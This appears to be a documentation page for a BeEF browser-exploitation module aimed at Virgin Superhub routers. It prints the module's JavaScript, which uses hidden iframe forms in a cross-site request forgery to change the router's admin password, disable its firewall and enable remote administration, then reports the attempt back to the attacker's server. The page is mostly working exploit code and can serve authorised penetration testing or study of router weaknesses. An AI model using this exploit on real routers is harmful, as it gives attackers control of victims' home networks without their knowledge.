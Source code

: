 ## Summary

* **Objective**: Enable remote administration, disable the firewall, and change the admin password on a Virgin Superhub router.
* **Authors**: bcoles, n0x00
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/virgin_superhub_csrf)

## Internal Working

Creates iframes with POST requests to enable remote administration, disable the firewall, and change the admin password on a Virgin Superhub router.


```js

var virgin_superhub_iframe1_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "goform/RgSecurity", "POST", "application/x-www-form-urlencoded", [
        {'type':'hidden', 'name':'NetgearPassword',        'value':passwd},
        {'type':'hidden', 'name':'NetgearPasswordReEnter', 'value':passwd},
        {'type':'hidden', 'name':'RestoreFactoryNo',       'value':'0x00'}
]);

var virgin_superhub_iframe2_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "goform/RgServices", "POST", "application/x-www-form-urlencoded", [
        {'type':'hidden', 'name':'cbPortScanDetection',    'value':''}
]);

var virgin_superhub_iframe3_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "goform/RgVMRemoteManagementRes", "POST", "application/x-www-form-urlencoded", [
        {'type':'hidden', 'name':'NetgearVMRmEnable',      'value':'0x01'},
        {'type':'hidden', 'name':'NetgearVMRmPortNumber',  'value':port}
]);

beef.net.send("<%= @command_url %>", <%= @command_id %>, "result=exploit attempted");


```

## Feedback

